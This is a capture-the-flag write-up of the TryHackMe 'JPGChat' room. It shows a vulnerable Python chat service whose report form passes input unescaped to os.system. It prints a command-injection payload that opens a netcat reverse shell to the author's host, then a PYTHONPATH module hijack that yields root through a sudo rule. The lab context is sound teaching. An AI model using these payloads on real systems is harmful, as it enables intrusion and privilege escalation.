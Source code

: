 ```yaml
---
layout: post
title: TryHackMe Walkthrough - JPGChat
date: 2021-06-26
type: post
tags:
- Walkthrough
- Hacking
- TryHackMe
- Easy
- Machine
permalink: /2021/06/JPGChat
img: 2021/06/JPGChat/JPGChat.png
---
```


This is an easy room where we need to find the code of a chat application to exploit it. And then use sudo to gain root access.

* Room: JPGChat
* Difficulty: Easy
* URL: [https://tryhackme.com/room/jpgchat](https://tryhackme.com/room/jpgchat)
* Author: [R4v3n](https://tryhackme.com/p/R4v3n)

```
Exploiting poorly made custom chatting service written in a certain language...
```

## Enumeration

I first launched RustScan to look for opened ports on the target machine.

```bash
$ rustscan -a target -- -A -script vuln | tee rust.txt
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time ⌛

[~] The config file is expected to be at "/home/ehogue/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.175.99:22
Open 10.10.175.99:3000
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
```

Port 22 (SSH) is opened. And port 3000. This is not a standard port so I looked at what's on it. 

## Chat Application

I tried to connect to port 3000 with Telnet. It gave me the prompt of the application, but I got disconnected every times I sent something. So I switched to Netcat. And it worked better.

```bash
$ nc target 3000
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
[MESSAGE]
There are currently 0 other users logged in
[MESSAGE]: Hello
[MESSAGE]: 
```

The application allow us to send messages or to report someone to the admins.

```bash
[MESSAGE]: [REPORT]
this report will be read by Mozzie-jpg
your name:
Eric
your report:
aaaa
[MESSAGE]:
```

The report function request a name and the report, but does not give any feedback. 

Part of the welcome message caught my attention.

```
the source code of this service can be found at our admin's github
```

I searched for 'jpchat source code' and found the [GitHub page with the code](https://github.com/Mozzie-jpg/JPChat). I had to be careful, because the first result was for a writeup of the room and I didn't want any spoilers.

The `report_form()` function is the one that is vulnerable to code injection.

```python
def report_form():

	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)
```

It takes whatever I send and insert it into a bash command to echo it and insert it in a file. It does not escape anything. So I could use it to run any command I wanted. 

I tried running a simple command to confirm I could exploit it.

```bash
[MESSAGE]: [REPORT]
this report will be read by Mozzie-jpg
your name:
'; whoami ; '
your report:
a

wes
[MESSAGE]:
```

Now that I knew how to send commands, I used it to open a reverse shell to my machine. I started a Netcat listener, then sent a report with the reverse shell code. 

```bash
[MESSAGE]: [REPORT]
this report will be read by Mozzie-jpg
your name:
'; mkfifo /tmp/kirxhbg; nc 10.13.3.36 4444 0</tmp/kirxhbg | /bin/sh >/tmp/kirxhbg 2>&1; rm /tmp/kirxhbg ; echo 'a
your report:
a

```

The waiting listener got the connection.

```bash
$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.175.99 39028
whoami
wes
```

I immediately solidified my shell. 

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm

CTRL-z
stty raw -echo;fg
```

Next I could read the user flag.

```bash
wes@ubuntu-xenial:/$ pwd
/
wes@ubuntu-xenial:/$ cd
wes@ubuntu-xenial:~$ ls
user.txt
wes@ubuntu-xenial:~$ cat user.txt 
REDACTED
wes@ubuntu-xenial:~$ 
```

## Escalation

Now that I was in the machine, I needed a way to get root access. First thing I always try is to see if the user can run sudo. 

```bash
wes@ubuntu-xenial:~$ sudo -l
Matching Defaults entries for wes on ubuntu-xenial:
    mail_badpass, env_keep+=PYTHONPATH

User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```

They can run a python script as root. 

```bash
wes@ubuntu-xenial:~$ ls -la /opt/development/test_module.py
-rw-r--r-- 1 root root 93 Jan 15 18:58 /opt/development/test_module.py
wes@ubuntu-xenial:~$ cat /opt/development/test_module.py
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))
wes@ubuntu-xenial:~$ sudo /usr/bin/python3 /opt/development/test_module.py
True
```

I couldn't modify the script it ran. But it imports functions from compare, and I can modify the environment variables. I created a file called `compare.py` in wes home folder, then called the script passing it this folder in the PYTHONPATH environment variable. This way, when the script tried to import compare, it will read my file and execute my code.

```bash
wes@ubuntu-xenial:~$ cat compare.py 
#!/usr/bin/env python3
import pty; 
pty.spawn("/bin/bash")

wes@ubuntu-xenial:~$ chmod +x compare.py

wes@ubuntu-xenial:~$ PYTHONPATH=/home/wes sudo /usr/bin/python3 /opt/development/test_module.py

root@ubuntu-xenial:~# whoami
root

root@ubuntu-xenial:~# cat /root/root.txt 
REDACTED

Also huge shoutout to Westar for the OSINT idea
i wouldn't have used it if it wasnt for him.
and also thank you to Wes and Optional for all the help while developing

You can find some of their work here:
https://github.com/WesVleuten
https://github.com/optionalCTF
```

This room was really easy. I was not expected to root it so fast. But it was still fun. I enjoyed attacking something that was not a web application.

